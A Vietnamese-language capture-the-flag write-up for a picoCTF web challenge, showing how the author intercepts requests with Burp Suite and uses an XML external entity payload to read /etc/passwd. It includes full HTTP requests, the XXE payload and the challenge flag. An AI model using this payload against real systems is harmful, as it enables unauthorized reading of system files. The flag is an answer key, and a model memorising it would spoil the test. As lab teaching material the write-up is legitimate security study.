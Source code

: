 # Write-up : SOAP 
---
### Description :
> The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
### Hint :
> XML external entity Injection
--- 
### Solution :
- Sau khi đọc hint và đề bài thì chúng ta biết lỗi trong bài này là XML Injection
- Dùng burp suite kiểm tra request gửi đi thì ta thấy mỗi khi bấm details của mỗi hình thì sẽ trả về 1 tham số id khác nhau

Dùng burp suite để chặn 1 request và chuyển request đó sang repeater để cùng thử các payload:
> khi thay đổi tham số id thì có sự thay đổi của response gửi về, khi thay đổi về 0 thì trả về :
```http
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Fri, 27 Jun 2025 14:48:32 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 13
Connection: close

Invalid ID: 0
```
Thử với `` &lt; `` thì trả về : `` < `` 
```http
POST /data HTTP/1.1
Host: saturn.picoctf.net:61837
Content-Length: 128
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:61837
Referer: http://saturn.picoctf.net:61837/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<data><ID>&lt;</ID></data>
```
> Từ đó cho ta thấy `` xml parser `` có chạy vì thế ta có thể tạo và sửa đổi nội dung xml

Payload tấn công :
```xml
<!DOCTYPE data [<!ENTITY abc SYSTEM "file:///etc/passwd">]>
```
Và gọi `` &abc `` ở chỗ `` xml parser `` hoạt động 
```http
POST /data HTTP/1.1
Host: saturn.picoctf.net:61837
Content-Length: 128
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:61837
Referer: http://saturn.picoctf.net:61837/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [<!ENTITY abc SYSTEM "file:///etc/passwd">]>
<data><ID>&abc;</ID></data>
```
### Flag : `` picoCTF{XML_3xtern@l_3nt1t1ty_55662c16} `` 
